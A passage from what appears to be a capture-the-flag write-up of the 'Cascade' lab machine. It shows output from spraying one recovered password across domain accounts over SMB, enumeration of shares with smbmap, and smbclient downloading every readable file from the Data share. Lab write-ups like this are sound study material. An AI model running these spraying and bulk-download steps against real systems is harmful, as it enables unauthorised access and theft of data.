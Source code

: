 ```bash
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\j.goodhand:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\a.turnbull:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\e.crowe:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\b.hanson:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\d.burman:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\BackupSvc:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\j.allen:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\i.croft:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\CascGuest:rY4n5eva STATUS_LOGON_FAILURE 
SMB         10.10.10.182    445    CASC-DC1         [-] cascade.local\:rY4n5eva STATUS_LOGON_FAILURE 
```

The username `r.thompson` have access to samba share. So lets have a look.

```
smbmap -H 10.10.10.182 -u "r.thompson" -p "rY4n5eva"
[+] IP: 10.10.10.182:445        Name: 10.10.10.182                                      
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        ADMIN$                                                  NO ACCESS       Remote Admin
        Audit$                                                  NO ACCESS
        C$                                                      NO ACCESS       Default share
        Data                                                    READ ONLY
        IPC$                                                    NO ACCESS       Remote IPC
        NETLOGON                                                READ ONLY       Logon server share 
        print$                                                  READ ONLY       Printer Drivers
        SYSVOL                                                  READ ONLY       Logon server share 
```

I can access Data share with his login. I used smbclient and I downloaded all files. 

```
smbclient -U "r.thompson" //10.10.10.182/Data
Enter WORKGROUP\r.thompson's password: 
Try "help" to get a list of possible commands.
smb: \> recurse on
smb: \> prompt off
smb: \> mget *
NT_STATUS_ACCESS_DENIED listing \Contractors\*
NT_STATUS_ACCESS_DENIED listing \Finance\*
NT_STATUS_ACCESS_DENIED listing \Production\*
NT_STATUS_ACCESS_DENIED listing \Temps\*
getting file \IT\Email Archives\Meeting_Notes_June_2018.html of size 2522 as IT/Email Archives/Meeting_Notes_June_2018.html (10.4 KiloBytes/sec) (average 10.4 KiloBytes/sec)
getting file \IT\Logs\Ark AD Recycle Bin\ArkAdRecycleBin.log of size 1303 as IT/Logs/Ark AD Recycle Bin/ArkAdRecycleBin.log (5.1 KiloBytes/sec) (average 7.7 KiloBytes/sec)
getting file \IT\Logs\DCs\dcdiag.log of size 5967 as IT/Logs/DCs/dcdiag.log (23.6 KiloBytes/sec) (average 13.0 KiloBytes/sec)
getting file \IT\Temp\s.smith\VNC Install.reg of size 2680 as IT/Temp/s.smith/VNC Install.reg (10.9 KiloBytes/sec) (average 12.5 KiloBytes/sec)
smb: \> 
```

